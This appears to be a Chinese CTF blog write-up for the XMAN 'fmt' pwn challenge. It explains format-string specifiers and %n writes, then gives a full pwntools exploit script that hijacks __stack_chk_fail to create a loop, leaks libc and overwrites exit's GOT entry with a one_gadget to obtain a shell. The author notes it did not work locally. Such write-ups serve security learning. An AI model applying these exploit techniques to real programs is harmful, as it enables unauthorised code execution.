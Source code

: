 ```yaml
---
title: XMAN FMT
date: 2018-08-24 08:37:40
tags: [CTF, PWN]
categories: XMAN夏令营
---
```

## xman结营赛 fmt  
​	一个在xman的朋友扔了个fmt给我，然而我之前没有深入了解过格式化字符串，所以趁这次了解了一下。  
<!--more-->
	大致了解了一下，发现当调用printf等函数的时候，如果没有使用格式化字符串，直接输出字符串变量，正常情况下是可以直接输出的，程序也并没有报错；但是如果这个变量中保存的字符串是用户精心构造的，那就可能造成数据泄露，甚至任意命令执行。  
当用户调用printf函数直接输入字符串变量未使用格式化字符串而此变量中保存的字符串又刚好包含格式化字符串，则程序将会把变量中的也就是用户输入的格式化字符串解析为调用函数的格式化字符串，而把栈上的数据当作要操作的内容进行输出，这是32位的情况，如果程序是64位，则会把从rdi开始的寄存器也算进去，优先对寄存器进行输出等操作。  
常见的构造方式：
%c：输出字符，配上%n可用于向指定地址写数据。

%d：输出十进制整数，配上%n可用于向指定地址写数据。

%x：输出16进制数据，如`%i$x`表示要泄漏偏移i处4字节长的16进制数据，`%i$lx`表示要泄漏偏移i处8字节长的16进制数据，32bit和64bit环境下一样。

%p：输出16进制数据，与%x基本一样，只是附加了前缀0x，在32bit下输出4字节，在64bit下输出8字节，可通过输出字节的长度来判断目标环境是32bit还是64bit。

%s：输出的内容是字符串，即将偏移处指针指向的字符串输出，如`%i$s`表示输出偏移i处地址所指向的字符串，在32bit和64bit环境下一样，可用于读取GOT表等信息。

%n：将%n之前printf已经打印的字符个数赋值给偏移处指针所指向的地址位置，如`%100×10$n`表示将0x64写入偏移10处保存的指针所指向的地址（4字节），而`%$hn`表示写入的地址空间为2字节，`%$hhn`表示写入的地址空间为1字节，`%$lln`表示写入的地址空间为8字节，在32bit和64bit环境下一样。有时，直接写4字节会导致程序崩溃或等候时间过长，可以通过`%$hn`或`%$hhn`来适时调整。

%n是通过格式化字符串漏洞改变程序流程的关键方式，而其他格式化字符串参数可用于读取信息或配合%n写数据。  
	了解了原理之后再来做题发现就简单了。  
	这道题的难点在于他没有循环，没有循环就造成一个问题，你最多只能泄露一次或者改写一次数据，而如果只能进行一次操作，那就很难getshell。所以直接一次去改写某个数据很难进行更深的操作，这里必须要有一个循环，聪明的我很快就注意到了（捂脸捂脸），程序开启了canary，而且可以进行溢出，一开始我想的是否能直接leak canary，但是这和之前一样没有循环，然后注意到stack_check_fail函数，想到了可以通过劫持stack_check_fail函数跳到程序开头重新执行，如果每次都进行溢出，那么就能构造一个循环。然后就是leak libc基地址，查找libc库，最后写one_gadget到exit函数。 
	基本思路确定了，接下来写exp时遇到不少问题，最多的就是输入输出流的接收一直没有搞好，导致输入一直阻塞，但是最终还是把exp写出来了。本地没有成功，但是确定能执行gadget，等以后再填坑吧，基本思路应该是没有错的。

```
from sys import argv
from pwn import *

context(os="linux", arch="amd64")
# context.log_level = "debug"
# r = process("./once_time", aslr=0)
r = remote(argv[1], 20004)
e = ELF("./once_time")
libc = e.libc

def sl(s):
	r.sendline(s)

def sd(s):
	r.send(s)

def rc(timeout=0):
	if timeout == 0:
		return r.recv()
	else:
		return r.recv(timeout=timeout)

def ru(s, timeout=0):
	if timeout == 0:
		return r.recvuntil(s)
	else:
		return r.recvuntil(s, timeout=timeout)

start = 0x400983

rc()
sl(p64(e.got["__stack_chk_fail"]))
rc()
payload = '%'+str(start)+"d%12$n"
payload = payload.ljust(0x20, "\x00")
sd(payload)
ru("input your name: ")
sl(p64(e.got["read"]))
ru("leave a msg: ")
# gdb.attach(r, "b *0x400968")
# # raw_input()
payload = "%12$s"
payload = payload.ljust(0x20, "\x00")
sd(payload)
libc.address = int(rc()[:6][::-1].encode("hex"), 16) - libc.symbols["read"]
log.info("libc > " + hex(libc.address))

# gdb.attach(r, "b *0x400968")
# # raw_input()
one_gadget = 0xf1147 + libc.address
log.info("one_gadget > " + hex(one_gadget))
sl(p64(e.got["exit"]))
ru("leave a msg: ")
# gdb.attach(r, "b *0x400968")
# # raw_input()
payload = "%" + str(one_gadget & 0xFFFF) + "d%12$hn"
payload = payload.ljust(0x20, "\x00")
sd(payload)
# raw_input()
ru("input your name: ")
# raw_input()

# gdb.attach(r, "b *0x400968")
# # raw_input()
sl(p64(e.got["exit"]+2))
ru("leave a msg: ")
# gdb.attach(r, "b *0x400968")
# # raw_input()
payload = "%" + str((one_gadget >> 16) & 0xFFFF) + "d%12$hn"
payload = payload.ljust(0x20, "\x00")
sd(payload)
# raw_input()
ru("input your name: ")
# raw_input()

# gdb.attach(r, "b *0x400968")
# # raw_input()
sl(p64(e.got["exit"]+4))
ru("leave a msg: ")
# gdb.attach(r, "b *0x400968")
# # raw_input()
payload = "%" + str((one_gadget >> 32) & 0xFFFF) + "d%12$hn"
payload = payload.ljust(0x20, "\x00")
sd(payload)
# raw_input()
ru("input your name: ")
# raw_input()

# gdb.attach(r, "b *0x400968")
# # raw_input()
sl(p64(e.got["exit"]+6))
ru("leave a msg: ")
log.info("one_gadget > " + hex(one_gadget))
# gdb.attach(r, """b *0x40094D
# b *0x400968""")
# raw_input()
log.info("one_gadget > " + hex((one_gadget >> 48) & 0xFFFF))
if (one_gadget >> 48) & 0xFFFF != 0:
	payload = "%" + str((one_gadget >> 48) & 0xFFFF) + "d%12$hn"
else:
	payload = "%12$hn"
payload = payload.ljust(0x20, "\x00")
sd(payload)
# raw_input()

ru("input your name: ")
sl('a')
ru("leave a msg: ")
sl("%p")
ru('\n')

f = open("./flags", "a")
sl('cat flag')
flag = rc(timeout=1).rstrip("\n")
log.info("flag > " + flag)
f.write(flag+'\n')
```

